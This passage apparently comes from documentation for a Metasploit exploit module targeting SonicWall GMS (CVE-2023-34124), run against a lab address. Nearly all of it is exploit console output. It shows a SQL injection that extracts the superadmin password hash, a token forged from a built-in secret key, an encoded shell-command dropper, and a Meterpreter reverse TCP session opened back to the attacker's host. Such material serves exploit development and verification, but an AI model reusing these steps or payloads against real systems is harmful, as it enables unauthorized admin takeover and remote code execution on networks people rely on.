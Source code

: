 ```
```

### Linux command

I also added a target for a Linux command. It works by writing the command to
a file then executing the file with the default shell (/bin/sh), which is
basically the same as the Linux dropper.

Like Windows, you won't see the output.

```
msf > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 2
TARGET => 2
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.89
RHOST => 10.0.0.89
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set CMD 'touch /tmp/iassureyouiexecuted'
CMD => touch /tmp/iassureyouiexecuted
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[+] touch /tmp/iassureyouiexecuted
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 32069016763622082907123286615890
[*] Generated client token: 6988cba8e0f09a4289075c1c3f3d84a2
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Encoding (Linux) payload
[*] Encoded shell command: bash -c PLUS\=\$\(echo\ -e\ begin-base64\ 755\ a\\\\nKwee\\\\n\=\=\=\=\ \|\ uudecode\ -o-\)\;echo\ -e\ begin-base64\ 755\ /tmp/.whhkjilf\\\\ndG91Y2ggL3RtcC9pYXNzdXJleW91aWV4ZWN1dGVk\\\\n\=\=\=\=\ \|\ uudecode\ \;\ coproc\ /tmp/.whhkjilf\ \;\ rm\ /tmp/.whhkjilf
[*] Attempting to execute the shell injection payload
[+] Payload sent!
```

To validate:

```
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 0
TARGET => 0
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227                         
LHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE false
VERBOSE => false
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Attempting to execute the shell injection payload
[*] Sending stage (3045380 bytes) to 10.0.0.89
[+] Payload sent!
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.89:43883) at 2023-08-18 14:11:57 -0700
```